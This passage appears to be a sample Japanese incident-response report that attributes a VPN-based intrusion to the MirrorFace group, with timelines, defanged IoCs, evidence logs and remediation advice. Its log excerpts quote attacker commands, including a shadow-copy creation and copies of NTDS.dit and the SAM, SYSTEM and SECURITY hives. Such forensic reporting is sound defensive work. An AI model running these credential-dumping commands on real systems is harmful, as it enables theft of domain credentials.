攻撃グループMirrorFaceは2023年頃から外部公開資産の脆弱性悪用による侵入も使用しており、組織内侵入後には、NOOPDOOR、MSBuild悪用、SMB管理共有経由のマルウェア配置、スケジュールタスク登録、GOST等のプロキシツール、WinRAR/SFTPによる情報窃取、防衛回避を組み合わせる事例が確認されています。このような特徴は本調査で確認した情報とも一致しており、本事象は攻撃グループMirrorFaceによる攻撃の可能性が高いと考えられます。
そのため、今後も同様の攻撃が予想されます。初期侵入経路として疑われるVPN装置だけでなく、その他の全外部公開資産の把握と脆弱性管理、可能であればアクセス制限などのセキュリティ対策を講じることを推奨します。

本調査では、一部のシステムで長期間のログ保存（VPN装置など）ができていない箇所や設定不備によって十分なログが取得できていないものが確認されています。また、アカウント管理においても特権アカウントの常用やMFA不使用などの問題が確認できました。今後のセキュリティ対策として、このようなシステムの設定不備をいま一度再点検してください。

さらに、AD02、AVMGMT01、WEB01では一部のファストフォレンジックのみを実施しています。そのため、初期侵入原因の特定および未確認の不審ファイルの有無には制約があります。必要に応じて、再構築前に追加のディスクフォレンジックを実施してください。

### 2.1 インシデント概要図 {#sec-2-1}

```{.note-block}
エグゼクティブサマリーでは、経営層や非技術部門に対してインシデントの全体像を理解しやすいように、重要な事象に絞って記載します。
詳細なインシデント概要図および詳細タイムラインは、4.7節に記載します。
```



<div class="figure-caption">図2-1 主要インシデント概要図</div>

### 2.2 インシデントタイムライン {#sec-2-2}

本節では、主要なインシデントタイムラインを示します。詳細に関しては、4.7節をご覧ください。

<div class="table-caption">表2-1 主要インシデントタイムライン</div>
| 日時 | 事象 | 解説 |
| ---- | -------- | ------------------ |
| 2025-05-10 02:14 | 外部IPアドレス89[.]233[.]109[.]69からVPN装置vpn-tokyo-01へ接続 | VPN装置を経由した初期侵入の可能性 |
| 2025-05-10 03:02～03:25 | アカウントSAMPLE\\AdministratorによるAD01ログオンおよび認証情報取得試行 | ドメイン認証情報が攻撃者に利用可能な状態 |
| 2025-05-11 01:40～01:44 | FS01へのUIAnimation.xml配置およびスケジュールタスク登録 | ファイルサーバー上でマルウェア実行および永続化 |
| 2025-05-12 23:10～23:20 | AVMGMT01へのNOOPLDR.dll配置およびC2疑い通信 | 管理サーバー上にも侵害が拡大し、外部通信が発生した |
| 2025-05-17～2025-05-18 | FS01でのファイル列挙、アーカイブファイル名の痕跡、sftp.exeによる外部通信 | 内部情報が持ち出された可能性 |
| 2025-06-01 09:12 | EDRがFS01から外部IPアドレスへの通信を検知し、FS01を隔離 | インシデント発覚および初動対応を実施 |

### 2.3 主要な推奨対応事項 {#sec-2-3}

```{.note-block}
本節では、5章に記載する対策の要約を記載します。
詳細な対応内容、実施上の留意点、その他の再発防止策は5章に記載します。
```

調査結果をもとに、特に優先して実施すべき対応事項を示します。その他の推奨事項については5章をご覧ください。

#### 主要な封じ込め・復旧対応事項

* vpn-tokyo-01のファームウェア更新、設定確認、管理画面のアクセス制限
* FS01、AVMGMT01、WEB01、CLIENT-001のネットワーク隔離または利用停止
* 本件で確認された不正通信先をFirewall等で遮断し、同様の通信が発生していないか監視
* アカウントSAMPLE\\Administrator、SAMPLE\\svc-backup、SAMPLE\\svc-avを含むWindowsネットワークの全認証情報リセット
* 本件IoCおよびMirrorFace関連IoCを用いた全社ログ検索、通信遮断要否の確認、類似マルウェアの有無確認

#### 主要な再発防止策

* VPNアカウントおよび特権アカウントへのMFA適用、特権アカウント運用の見直し
* Domain Admins常用禁止および管理権限の最小化
* Windows監査ポリシー、重要サーバーのログ取得設定の有効化
* 外部公開資産の把握と脆弱性管理

## 3. 調査結果 {#sec-3}

```{.note-block}
本報告書では、3章でTTP別の調査結果を、4章で各システム別の調査結果を整理します。
調査結果のエビデンスは必ず提示する必要があるため、報告書内または別紙として提示します。
本報告書では、各調査結果の根拠は、4章で確認できるように記載します。
```

本章では、確認された攻撃活動を初期侵入、認証情報取得、内部探索、横展開、マルウェアの永続化、C2通信、情報持ち出し、防衛回避の観点で整理します。

### 3.1 初期侵入 {#sec-3-1}

初期侵入は、東京事務所のVPN装置vpn-tokyo-01を経由して行われた可能性が高いと考えられます。2025年5月10日 02:14、通常の業務利用時間外に外部IPアドレス89[.]233[.]109[.]69からSSL-VPN接続が行われ、その後20分以内にアカウントSAMPLE\\AdministratorによるAD01へのログオンが確認されました。

運用担当者へのヒアリングによると、vpn-tokyo-01は、調査時点でファームウェアが最新版ではなく、特権アカウントにMFAが適用されていませんでした。一方で、提供されたVPN認証・接続ログは2025-05-01 00:00以降に限られ、同時刻以前のログやクラッシュログは保管されていなかったため、脆弱性悪用そのものを示すログは確認できませんでした。

<div class="table-caption">表3-1 初期侵入に関する確認事項</div>
| 確認事項           | 内容                                                            | 証拠         |
| ------------------ | --------------------------------------------------------------- | ------------ |
| 不審VPN接続        | 89[.]233[.]109[.]69からアカウントSAMPLE\\svc-backupで接続 | E-101        |
| VPN設定・状態      | 運用担当者へのヒアリングにより、ファームウェア旧版、MFA未適用、管理画面公開設定を把握 | 表1-1 |
| 特権アカウント使用 | VPN接続後にアカウントSAMPLE\\AdministratorがAD01にログオン         | E-102        |
| 侵入原因           | ログ不十分により、脆弱性悪用の直接証拠は未確認            | E-101 |

### 3.2 認証情報取得・アカウント悪用 {#sec-3-2}

攻撃者はAD01において、Windowsネットワークの認証情報を取得する目的で、NTDS.ditおよびレジストリハイブの取得を試みた可能性が高いと考えられます。現時点で取得ファイルの外部送信までは確認できていませんが、ドメイン認証情報が攻撃者に利用可能な状態になった可能性を否定できません。

<div class="table-caption">表3-2 認証情報取得・アカウント悪用に関する確認事項</div>
| アカウント             | 内容                                                           | 使用先                             | 証拠              |
| ---------------------- | -------------------------------------------------------------- | ---------------------------------- | ----------------- |
| SAMPLE\\Administrator | AD01、FS01、AVMGMT01へのログオン、SMBコピー、タスク登録 | AD、ファイルサーバー、管理サーバー | E-102、E-103、E-104 |
| SAMPLE\\svc-backup    | VPNログイン、AD01への管理共有アクセス                       | VPN、AD                            | E-101、E-102      |
| SAMPLE\\svc-av        | AVMGMT01上での管理操作、サービス停止                        | セキュリティ製品管理               | E-104、E-113      |

AD01では、2025年5月10日 03:18にvssadmin create shadow /for=C: コマンドが実行され、その後Active DirectoryデータベースファイルC:\\Windows\\NTDS\\NTDS.dit、レジストリハイブファイルC:\\Windows\\System32\\config\\SYSTEM、C:\\Windows\\System32\\config\\SAM、C:\\Windows\\System32\\config\\SECURITYに対するコピー試行が確認されました。
また、初期侵入に使用された疑いのあるアカウントSAMPLE\\svc-backupの認証情報が漏えいした原因は不明です。

### 3.3 内部探索・横展開 {#sec-3-3}

攻撃者は、侵入後にWindows標準コマンドを用いて内部探索を実施しました。AD01およびFS01では、whoami、hostname、ipconfig、net user /domain、net group "Domain Admins" /domain、setspn -T SAMPLE -Q */* 、 dir /s、net view /domain、nltest /dclist:SAMPLEの実行が確認されました。

横展開では、アカウントSAMPLE\\Administratorを使用し、SMB管理共有 \\\\FS01\\C$、\\\\AVMGMT01\\C$、\\\\CLIENT-001\\C$に対してUIAnimation.xmlおよびNOOPLDR.dllをコピーした痕跡があります。FS01のWindowsイベントログ（セキュリティログ）では、詳細なファイル共有監査によりイベントID 5145が記録されていました。また、スケジュールタスク登録を示すイベントID 4698も確認されました。

<div class="table-caption">表3-3 内部探索・横展開に関する確認事項</div>
| 対象         | 内容                                                                                   | 証拠                         |
| ------------ | -------------------------------------------------------------------------------------- | ---------------------------- |
| FS01       | \\\\FS01\\C$\\ProgramData\\Microsoft\\UIAnimation.xmlへのコピー、MSBuild実行タスク登録 | E-103、E-104、E-117-01～E-117-03          |
| AVMGMT01   | NOOPLDR.dll配置、サービス登録                                                       | E-104、E-113、E-116-01～E-116-03          |
| CLIENT-001 | UIAnimation.xml配置痕跡、PrefetchにMSBUILD.EXE                                   | E-003                        |
| WEB01      | gost配置、外部通信                                                              | E-107、E-110、E-114-01～E-114-03          |

### 3.4 永続化 {#sec-3-4}

UIAnimation.xmlは、MSBuildで実行可能なXML形式のファイルで、難読化されたC#コードを含んでいました。実行後、レジストリHKLM\\Software\\License\\7A3F19に暗号化データを書き込み、svchost.exeへコードインジェクションを行う挙動が確認されました。

NOOPLDR.dllは、Windows Update関連の正規プログラムであるwuauclt.exeを利用したDLLサイドローディングにより実行された可能性があります。AVMGMT01では、HKCU\\Software\\Microsoft\\COM3\\B72A90に暗号化データが保存されており、タスクスケジューラにUpdateCheckが登録されていました。

<div class="table-caption">表3-4 永続化に関する確認事項</div>
| 対象       | ファイル／設定                              | 実行時刻（初回） | 機能または影響                                                | 証拠                                    |
| ---------- | ------------------------------------------- | ---------------- | ------------------------------------------------------------- | --------------------------------------- |
| FS01       | C:\\ProgramData\\Microsoft\\UIAnimation.xml | 2025-05-11 01:44 | MSBuild経由でマルウェアを実行                                 | E-103、E-104、E-105、E-115-01～E-115-04 |
| FS01       | HKLM\\Software\\License\\7A3F19             | 2025-05-11 01:44 | 暗号化ペイロード                                              | E-002、E-115-01～E-115-04               |
| AVMGMT01   | C:\\Windows\\System32\\NOOPLDR.dll          | 2025-05-12 23:14 | DLLサイドローディングによる実行の可能性、永続化               | E-104、E-106、E-116-01～E-116-03        |
| AVMGMT01   | HKCU\\Software\\Microsoft\\COM3\\B72A90     | 2025-05-12 23:14 | 暗号化ペイロード                                              | E-116-01～E-116-03                      |
| CLIENT-001 | HKCU\\Software\\Licenses\\4F2C91            | 2025-05-13 00:02 | 暗号化ペイロード                                              | E-003                                   |
| FS01       | UpdateCheck                                 | 2025-05-11 01:44 | システム起動時にUIAnimation.xmlを再実行するスケジュールタスク | E-103、E-117-01～E-117-03               |

### 3.5 C2通信・プロキシ・外部通信 {#sec-3-5}

マルウェアに関連する通信として、FS01から外部送信先へのTCP/443通信と、AVMGMT01からC2疑い通信先へのTCP/443通信が確認されました。また、FS01では、2025年6月1日のライブレスポンス取得時点でTCP47000番の待受状態となったプロセスが確認されました。これは調査時点の状態を示すものであり、待受開始時刻を示すものではありません。

WEB01では、HTTP/SOCKS5プロキシツールであるGOSTに類似するgostが配置され、外部プロキシ通信先にアクセスしていた痕跡があります。

<div class="table-caption">表3-5 C2通信・プロキシ・外部通信に関する確認事項</div>
| 通信元     | 通信先（defang）       | 時刻                                         | プロトコル・確認内容                 | 送信量                           | 受信量                       | 通信回数 | 証拠                             |
| ---------- | ---------------------- | -------------------------------------------- | ------------------------------------ | -------------------------------- | ---------------------------- | -------- | -------------------------------- |
| FS01     | 45[.]77[.]183[.]161  | 2025-05-17 22:10～2025-05-18 00:45           | TCP/443（sftp.exeによる通信）     | 184,734,221bytes（約176.2MB） | 2,918,442bytes（約2.8MB） | 28       | E-104、E-110                     |
| AVMGMT01 | 207[.]148[.]90[.]45  | 2025-05-12 23:20～2025-05-15 04:10           | TCP/443（HTTPS通信の疑い）           | 12,845,770bytes（約12.3MB）   | 9,341,220bytes（約8.9MB） | 未確認   | E-104、E-110                     |
| FS01     | 0.0.0.0:47000        | 2025-06-01 10:18（ライブレスポンス取得時点） | TCP待受                              | -                                | -                            | -        | E-117-01～E-117-03               |
| WEB01    | 207[.]148[.]103[.]42 | 2025-05-14 22:31～2025-05-14 23:20           | SOCKS5 over TCP/443                   | 4,351,902bytes（約4.2MB）     | 2,183,440bytes（約2.1MB） | 未確認   | E-107、E-110、E-114-01～E-114-03 |

FS01からの通信は、ファイル列挙後かつMFT上に C:\\ProgramData\\Microsoft\\collect_20250517.rar というファイル名の痕跡が確認された時間帯の後に送信量が増加しているため、情報持ち出しの可能性があります。ただし、確認できたのは当該ファイル名の痕跡に限られ、ファイル本体および通信内容は確認できないため、送信されたファイル名、内容は確認できません。


### 3.6 情報窃取・情報持ち出し {#sec-3-6}

```{.note-block}
情報漏えいの調査において、確定的な証拠が発見できないことが多々あります。
その際は、調査したポイント・エビデンスを提示したうえで証拠を発見できなかったことを記載します。

情報漏えいの有無は、被害組織の意思決定において重要なポイントになりますので、調査を実施していない場合は、注意書き等でその方針を記載します。

漏えいした疑いのあるデータが特定できる場合は、別途、漏えいした疑いのあるデータ一覧を作成します。
```

FS01では、2025年5月17日にファイル一覧取得が行われていました。攻撃者はcmd.exe /c dir D:\\Share /s /a > C:\\ProgramData\\Microsoft\\fs01_dir_20250517.txtを実行し、その後、MFT上にC:\\ProgramData\\Microsoft\\collect_20250517.rarというファイル名の痕跡が残っていました。ただし、確認できたのはファイル名の痕跡のみであり、当該RARファイル本体は確認できませんでした。

同日夜から翌日にかけて、sftp.exeの実行および外部IPアドレスへの通信量増加が確認されました。Firewallログでは、2025-05-17 22:10～2025-05-18 00:45の間に、FS01から外部送信先に対して184,734,221bytes（約176.2MB）の送信が確認されています。ただし、通信内容は暗号化されており、送信されたファイル名および内容は確認できません。そのため、ファイル一覧取得、MFT上のアーカイブファイル名の痕跡、sftp.exe実行、送信量増加を総合して、情報持ち出しの可能性があると評価します。D:\\Share配下で列挙されたファイルの一覧は、影響データ範囲を確認するための資料として別紙5に整理しています。

<div class="table-caption">表3-6 情報窃取・情報持ち出しに関する確認事項</div>
| 対象   | 確認事項                 | 内容                                                                              | 送信量                           | 証拠                      |
| ------ | ------------------------ | --------------------------------------------------------------------------------- | -------------------------------- | ------------------------- |
| FS01 | ファイル探索             | D:\\Share配下を dir /s で列挙                                                 | -                                | E-104、E-115-01～E-115-04 |
| FS01 | アーカイブファイル名の痕跡 | MFT上にC:\\ProgramData\\Microsoft\\collect_20250517.rarというファイル名の痕跡を確認。ファイル本体は未取得 | -                                | E-002                     |
| FS01 | 外部通信                 | 外部送信先へ通常より多い通信                                                      | 184,734,221bytes（約176.2MB） | E-104、E-110              |


### 3.7 防衛回避 {#sec-3-7}

攻撃者は、防衛回避を目的とする複数の操作を実行していました。
本件では、Windows標準機能を悪用したマルウェア実行、レジストリへの設定値格納、タイムスタンプ改ざん、サービス隠蔽、Defender停止などを確認しました。

<div class="table-caption">表3-7 防衛回避に関する確認事項</div>
| 手法                 | 本件で確認した内容                                                                         | 証拠                                   |
| -------------------- | ------------------------------------------------------------------------------------------ | -------------------------------------- |
| MSBuild悪用          | MSBuild.exe C:\\ProgramData\\Microsoft\\UIAnimation.xml 実行                                | E-104、E-115-01～E-115-04              |
| レジストリ格納       | HKLM\\Software\\License\\7A3F19、HKCU\\Software\\Microsoft\\COM3\\B72A90への暗号化データ保存 | E-115-01～E-115-04、E-116-01～E-116-03 |
| タイムスタンプ改ざん | UIAnimation.xmlの作成日時が2023年に変更されていた                                       | E-104、E-115-01～E-115-04              |
| FWルール確認         | TCP47000番を許可するWindows Firewallルールをライブレスポンスで確認。追加時刻は未特定      | E-117-01～E-117-03                     |
| サービス隠蔽         | UpdateCheckSvc のアクセス制御変更                                                        | E-116-01～E-116-03                     |
| Defender停止         | AVMGMT01でDefenderリアルタイム保護停止                                                  | E-113、イベントID 5001                 |

### 3.8 脅威インテリジェンス調査 {#sec-3-8}

```{.note-block}
調査結果から紐づく攻撃アクター名やオペレーション名とその判断根拠を類似事例の記事、ブログ、レポートなどの参考情報とともに記載します。また、攻撃アクター名が紐づいた場合は一般的な攻撃者の動機や目的の説明なども記載できる範囲で記載します。
```

本調査で確認した通信先IPアドレスおよびマルウェアのハッシュ値について、2025年6月18日時点で公開されていた脅威情報と照合しました。その結果、通信先IPアドレス4件は、JPCERT/CCが2024年7月に公開したMirrorFaceの攻撃活動に関するレポートと表3-8のとおり一致しました。また、マルウェアについてもそれぞれ一致しました。

<div class="table-caption">表3-8 公開情報との照合結果</div>
| 種別       | 値                                                                 | 本報告書で確認した内容                 | 公開情報との照合結果 |
| ---------- | ------------------------------------------------------------------ | -------------------------------------- | -------------------- |
| IPアドレス | 89[.]233[.]109[.]69                                              | vpn-tokyo-01への不審なSSL-VPN接続元 | 表3-9 項番1          |
| IPアドレス | 45[.]77[.]183[.]161                                              | FS01からの情報持ち出し疑い通信先    | 表3-9 項番1          |
| IPアドレス | 207[.]148[.]90[.]45                                              | AVMGMT01からのC2疑い通信先          | 表3-9 項番1          |
| IPアドレス | 207[.]148[.]103[.]42                                             | WEB01上のGOST類似ツールの接続先     | 表3-9 項番1          |
| SHA-256    | 93af6afb47f4c42bc0da3eedc6ecb9054134f4a47ef0add0d285404984011072 | UIAnimation.xml                     | 表3-9 項番1          |
| SHA-256    | 7a7e7e0d817042e54129697947dfb423b607692f4457163b5c62ffea69a8108d | NOOPLDR.dll                         | 表3-9 項番1          |

また、本調査で確認した以下の特徴は、JPCERT/CCが公開した情報と一致します。

* UIAnimation.xmlをMSBuild.exeで実行し、HKLM\\Software\\License\\7A3F19にデータを保存
* NOOPLDR.dllの配置後に HKCU\\Software\\Microsoft\\COM3\\B72A90へデータを保存
* 正規プロセスへのコードインジェクションおよびTCP47000番での待受機能
* SMB管理共有を用いたファイル配置とスケジュールタスクによる永続化
* Linuxサーバー上でのGOST類似ツールの利用
* dir /s によるファイル列挙、アーカイブファイル名の痕跡、sftp.exeによる外部通信
* タイムスタンプ改ざんおよびWindows Defenderの停止

以上のとおり、本件では、MirrorFace関連として公開された通信先4件との一致に加え、NOOPLDR Type1およびType2の既知検体とのハッシュ値の完全一致が確認され、侵入後の攻撃手法も公開情報と一致しています。これらのことから、本事象はMirrorFaceによる攻撃である可能性が高いと判断します。

本調査で参照した主な脅威情報は以下のとおりです。

<div class="table-caption">表3-9 公開情報</div>
| 項番 | タイトル                         | 発行元    | URL                                                       |
| ---- | -------------------------------- | --------- | --------------------------------------------------------- |
| 1    | 攻撃グループMirrorFaceの攻撃活動 | JPCERT/CC | hxxps://blogs.jpcert.or[.]jp/ja/2024/07/mirrorface.html |

## 4. 対象別調査結果詳細 {#sec-4}

```{.note-block}
本章では、確認した事項を列挙するのではなく、エビデンスと紐づけて確認した事象を説明します。
ログ全文や解析結果が長大になる場合、抜粋を本文に記載し、必要に応じて詳細は別紙に添付します。
また、調査の再現手順を記載することで、被害組織での調査結果のレビューに役立つ場合がありますので、調査時に実行したコマンドや参照したイベントIDなど具体的な調査手法を記載することも検討してください。（本報告書では、調査の再現手順については省略しています。）

本章では、ログ、ファイル、フォレンジックアーティファクト等により確認できた事実に基づく分析結果を記載します。
直接的な証拠が確認できない事項については、断定を避け、制約事項を併記します。

例えば、VPN装置のファームウェアが古いことや管理画面が外部から到達可能であったことは、脆弱性悪用の可能性を検討する根拠にはなりますが、それだけで「VPN装置の脆弱性を悪用されて侵入された」と断定することはできません。
そのため、脆弱性悪用、認証情報悪用、設定不備など複数の可能性がある場合は、確認できた事実、確認できなかった事項を記載します。
```

本章では、調査対象ごとに確認結果を記載します。

### 4.1 VPN装置vpn-tokyo-01{#sec-4-1}

vpn-tokyo-01では、2025年5月10日 02:14に外部IPアドレス89[.]233[.]109[.]69から、アカウントSAMPLE\\svc-backupを用いたSSL-VPN接続が確認されました。この接続は通常の業務利用時間外であり、当該アカウントの通常利用元とは異なる接続元から行われていました。

このVPN接続の後、2025年5月10日 03:02にアカウントSAMPLE\\AdministratorによるAD01へのログオンが確認されました。VPN接続元とADログオンの間に直接同一端末を示すログは残っていませんが、時刻の近接性、利用アカウント、通常利用と異なる接続元、および以降のAD上の不審操作から、vpn-tokyo-01を経由した侵入である可能性が高いと考えられます。

<div class="table-caption">表4-1 VPN装置で確認した事象</div>
| 時刻                    | 証拠  | 確認した事象                                                     |
| ----------------------- | ----- | ---------------------------------------------------------------- |
| 2025-05-10 02:14        | E-101 | 89[.]233[.]109[.]69からアカウントSAMPLE\\svc-backupによるSSL-VPN接続 |
| 2025-05-10 02:14～03:00 | E-101 | 同一接続におけるVPNセッション継続                                |
| 2025-05-10 03:02        | E-102 | アカウントSAMPLE\\AdministratorによるAD01ログオン                    |

確認したVPNログの内容は以下のとおりです。

```{.log-block}
# E-101: vpn-tokyo-01_ssl-vpn_20250501-20250602.log
2025-05-10 02:14:08 JST sslvpn-login user="SAMPLE\\svc-backup" srcip=89[.]233[.]109[.]69 result=success tunnel_ip=10.8.14.23
2025-05-10 02:14:11 JST sslvpn-tunnel user="SAMPLE\\svc-backup" srcip=89[.]233[.]109[.]69 action=tunnel-up
2025-05-10 03:08:44 JST sslvpn-tunnel user="SAMPLE\\svc-backup" srcip=89[.]233[.]109[.]69 action=tunnel-down
```

侵入の直接的な原因は特定できませんでしたが、侵害発生時のVPN装置のファームウェアバージョンが古いこと、管理画面がインターネットから到達可能であったことから、脆弱性悪用または認証情報悪用のいずれかが直接の原因である可能性がありますが、それを確定できる証拠は見つかりませんでした。

### 4.2 ADサーバー AD01・AD02 {#sec-4-2}

AD01では、VPN接続後に特権アカウントを用いたログオンが確認され、その後、認証情報取得を目的とした操作が連続して実行されていました。具体的には、vssadminコマンドによるシャドウコピー作成、Active DirectoryデータベースファイルNTDS.ditおよびレジストリハイブファイルへのアクセス、管理共有を用いたファイル操作が確認されました。

AD02では、AD01と同等の認証情報取得操作は確認されていません。一方で、アカウントSAMPLE\\AdministratorによるログオンおよびLDAP列挙と整合する操作が確認されたため、攻撃者によりアクセスされた可能性が高いと判断します。

#### AD01で確認した事象

<div class="table-caption">表4-2 AD01で確認した事象</div>
| 時刻             | 証拠                | 確認した事象                                                       |
| ---------------- | ------------------- | ------------------------------------------------------------------ |
| 2025-05-10 03:02 | E-102               | アカウントSAMPLE\\AdministratorがAD01にログオン                        |
| 2025-05-10 03:18 | E-104               | vssadmin create shadow /for=C: コマンド実行                              |
| 2025-05-10 03:25 | E-001、E-104、E-118-01～E-118-03 | Active DirectoryデータベースファイルNTDS.dit、レジストリハイブファイルSYSTEM、SAM、SECURITYへのアクセスおよびコピー試行 |
| 2025-05-10 03:32 | E-104、E-118-01～E-118-03        | 取得ファイルを一時ディレクトリへ集約                               |

AD01のWindowsイベントログ、EDRログ、およびMFT/USN Journal分析結果では、以下のレコードを確認しました。

```{.log-block}
# E-102: AD01_Security_20250501-20250602.evtx
2025-05-10 03:02:14 JST AD01 EventID=4624
AccountName=SAMPLE\Administrator
LogonType=3
SourceNetworkAddress=10.8.14.23

# E-104: edr_process_network_20250501-20250603.csv
2025-05-10 03:18:02 JST AD01 EDR Process
User=SAMPLE\Administrator
Process="C:\Windows\System32\vssadmin.exe"
CommandLine="vssadmin create shadow /for=C:"

# E-104: edr_process_network_20250501-20250603.csv
2025-05-10 03:25:19 JST AD01 EDR Process
User=SAMPLE\Administrator
Process="cmd.exe"
CommandLine="cmd.exe /c copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\Windows\NTDS\NTDS.dit C:\ProgramData\Microsoft\ntds.dit"

# E-104: edr_process_network_20250501-20250603.csv
2025-05-10 03:25:48 JST AD01 EDR Process
CommandLine="cmd.exe /c copy C:\Windows\System32\config\SYSTEM C:\ProgramData\Microsoft\SYSTEM"
CommandLine="cmd.exe /c copy C:\Windows\System32\config\SAM C:\ProgramData\Microsoft\SAM"
CommandLine="cmd.exe /c copy C:\Windows\System32\config\SECURITY C:\ProgramData\Microsoft\SECURITY"

# E-118-03: AD01_file_access_summary.csv
2025-05-10 03:25:19 JST AD01 FileAccess
Path="C:\Windows\NTDS\NTDS.dit"
AccessType=Read
RelatedProcess="cmd.exe"
```

#### AD01で確認した内部探索コマンド

AD01 では、認証情報取得操作の前後に、ドメイン構成および特権アカウントを確認するコマンドが実行されていました。これらは、現在の権限、管理者アカウント、ドメインコントローラー、サービスアカウントを確認し、横展開先や利用可能な権限を把握するための内部探索と考えられます。

<div class="table-caption">表4-3 AD01で確認した内部探索コマンド</div>
| 時刻             | コマンド                            | 補足                                                                                          | 証拠  |
| ---------------- | ----------------------------------- | --------------------------------------------------------------------------------------------- | ----- |
| 2025-05-10 03:06 | whoami /all                       | 実行ユーザー、所属グループ、付与されている権限を確認するためのコマンド。                  | E-104 |
| 2025-05-10 03:07 | net group "Domain Admins" /domain | ドメイン管理者グループのメンバーを確認するためのコマンド。                                | E-104 |
| 2025-05-10 03:09 | nltest /dclist:SAMPLE             | ドメインコントローラーの一覧を確認するためのコマンド。                                    | E-104 |
| 2025-05-10 03:11 | setspn -T SAMPLE -Q */*           | ドメイン内のSPNを列挙し、サービスアカウントや認証情報攻撃の対象を確認するためのコマンド。 | E-104 |

表4-3の根拠となるEDRログ抜粋は以下のとおりです。

```{.log-block}
# E-104: edr_process_network_20250501-20250603.csv
2025-05-10 03:06:12 JST AD01 EDR Process
User=SAMPLE\Administrator
Process="whoami.exe"
CommandLine="whoami /all"

2025-05-10 03:07:44 JST AD01 EDR Process
User=SAMPLE\Administrator
Process="net.exe"
CommandLine="net group \"Domain Admins\" /domain"

2025-05-10 03:09:18 JST AD01 EDR Process
User=SAMPLE\Administrator
Process="nltest.exe"
CommandLine="nltest /dclist:SAMPLE"

2025-05-10 03:11:03 JST AD01 EDR Process
User=SAMPLE\Administrator
Process="setspn.exe"
CommandLine="setspn -T SAMPLE -Q */*"
```

#### AD02で確認した事象

<div class="table-caption">表4-4 AD02で確認した事象</div>
| 時刻             | 証拠         | 確認した事象                          | 補足                                                                                        |
| ---------------- | ------------ | ------------------------------------- | ------------------------------------------------------------------------------------------- |
| 2025-05-10 04:12 | E-112        | アカウントSAMPLE\\Administratorによるログオン | AD02へ到達し、追加の探索または管理操作を行うためのログオン。                  |
| 2025-05-10 04:18 | E-112、E-104 | setspn -T SAMPLE -Q */* の実行      | ドメイン内のSPNを列挙し、サービスアカウントや認証情報攻撃の対象を確認。 |

AD02のWindowsイベントログおよびEDRログでは、以下のレコードを確認しました。

```{.log-block}
# E-112: AD02_Security_20250501-20250603.evtx
2025-05-10 04:12:09 JST AD02 EventID=4624
AccountName=SAMPLE\Administrator
LogonType=3
SourceNetworkAddress=10.8.14.23

# E-104: edr_process_network_20250501-20250603.csv
2025-05-10 04:18:31 JST AD02 EDR Process
User=SAMPLE\Administrator
Process="setspn.exe"
CommandLine="setspn -T SAMPLE -Q */*"
```

### 4.3 ファイルサーバーFS01{#sec-4-3}

FS01では、SMB経由でUIAnimation.xmlが配置され、その後MSBuild.exeにより実行された痕跡が確認されました。さらに、スケジュールタスクUpdateCheckの登録、ファイル一覧の作成、MFT上のアーカイブファイル名の痕跡、外部IPアドレスへの通信が確認されました。

また、2025年6月1日のライブフォレンジックで、FS01がTCP47000番で待受状態であることを確認しました。これは取得時点の状態を示すものであり、待受開始時刻を示すものではありません。

#### FS01で確認した事象のタイムライン

<div class="table-caption">表4-5 FS01で確認した事象のタイムライン</div>
| 時刻             | 証拠                             | 確認した事象                                                                      | 補足                                                                     |
| ---------------- | -------------------------------- | --------------------------------------------------------------------------------- | ------------------------------------------------------------------------ |
| 2025-05-11 01:40 | E-103、E-104、E-105、E-115-01～E-115-04 | \\\\FS01\\C$\\ProgramData\\Microsoft\\UIAnimation.xmlへのSMBコピーを確認             | 管理共有を用いたマルウェアの配置。                                       |
| 2025-05-11 01:44 | E-103、E-104、E-105、E-115-01～E-115-04 | MSBuild.exeを用いたUIAnimation.xml実行を確認                               | Windows標準のMSBuildを悪用し、XML内のコードを実行。                      |
| 2025-05-11 01:44 | E-103、E-117-01～E-117-03        | UpdateCheckタスク登録を確認                                                    | システム起動時にマルウェアを再実行するための永続化。                             |
| 2025-05-11 01:45 | E-002、E-115-01～E-115-04        | HKLM\\Software\\License\\7A3F19への書き込みを確認                                 | マルウェアの設定値または暗号化データを保存。                             |
| 2025-05-17 20:05 | E-104、E-115-01～E-115-04        | dir /s によりD:\\Share配下のファイル一覧を作成                               | 共有フォルダ内のファイル構成を把握し、持ち出し対象を選別するための操作。 |
| 2025-05-17 20:42 | E-002                            | MFT上にC:\\ProgramData\\Microsoft\\collect_20250517.rarというファイル名の痕跡を確認。ファイル本体は未取得 |                                                                          |
| 2025-05-18 00:13 | E-104、E-110                     | sftp.exe実行および45[.]77[.]183[.]161への通信増加を確認                    | 外部送信を目的としてSFTPクライアントを実行。                             |
| 2025-06-01 10:18 | E-117-01～E-117-03               | TCP47000番の待受状態を確認。待受開始時刻は未特定                                 |                                                                          |

#### マルウェア配置および実行

FS01のセキュリティログでは、アカウントSAMPLE\\Administratorによる管理共有アクセスが記録されていました。EDRログおよびMFT分析では、同時刻帯にC:\\ProgramData\\Microsoft\\UIAnimation.xmlが作成された痕跡を確認しました。

```{.log-block}
2025-05-11 01:40:22 JST FS01 EventID=5145 User=SAMPLE\Administrator
ShareName=\\*\C$
RelativeTargetName=ProgramData\Microsoft\UIAnimation.xml
Accesses=WriteData

2025-05-11 01:44:09 JST FS01 EDR Process
ParentProcess="schtasks.exe"
Process="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe"
CommandLine="MSBuild.exe C:\ProgramData\Microsoft\UIAnimation.xml"
```

UIAnimation.xmlは、MSBuildで実行可能なXML形式のファイルであり、難読化されたC#コードを含んでいました。マルウェア分析の結果、外部C2サーバーへの接続、ファイル送受信、任意コマンド実行、およびTCP47000番での待受機能を有するNOOPDOOR類似の挙動が確認されました。

MFTおよびAmcache分析結果では、UIAnimation.xmlとMSBuild.exeの実行痕跡を確認しました。

```{.log-block}
# E-115-01: FS01_MFT.csv
2025-05-11 01:40:23 JST FS01 MFT
Path="C:\ProgramData\Microsoft\UIAnimation.xml"
EntryType=File
RecordStatus=Allocated
Created=2025-05-11 01:40:23 JST

# E-115-04: FS01_Amcache.csv
2025-05-11 01:44:09 JST FS01 Amcache
Executable="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe"
CommandLine="MSBuild.exe C:\ProgramData\Microsoft\UIAnimation.xml"
User=SAMPLE\Administrator
```

#### マルウェアの永続化

同時刻帯に、UpdateCheckという名称のスケジュールタスクが登録されていました。このタスクは、システム起動時にMSBuild.exe C:\\ProgramData\\Microsoft\\UIAnimation.xmlを実行する設定であり、UIAnimation.xmlを再実行するための永続化です。

```{.log-block}
# E-103: FS01_Security_20250501-20250602.evtx
